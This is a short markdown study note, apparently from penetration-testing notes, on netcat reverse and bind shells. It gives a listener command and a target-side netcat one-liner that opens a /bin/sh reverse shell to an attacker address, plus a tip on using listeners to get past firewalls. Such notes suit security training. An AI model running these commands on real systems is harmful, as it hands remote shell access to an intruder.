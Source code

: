 


#  Exploitation Basics

Source: https://www.hackingtitorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/

## **Netcat Reverse Shells** - a victim connect to the attacker

![Alt](../../Images/netcatreverseshell.png)


- All we do is to listen via

```
nc -lvp 4444
```

- The target connect to us and establish a shell

```
nc 192.168.1.1 4444 -e /bin/sh
```

Example:

![Alt](ncrevershelldo.png)

## **Netcat Bind Shells** - an attacker connects to the victim

![Alt](doncreverse.png)


![Alt](donetcatbindshell.png)


============================================================

NOTE: Use reverse shell 95%
Bind shell usually in external assessment
Bypass firewall just listen instead in port forward in FW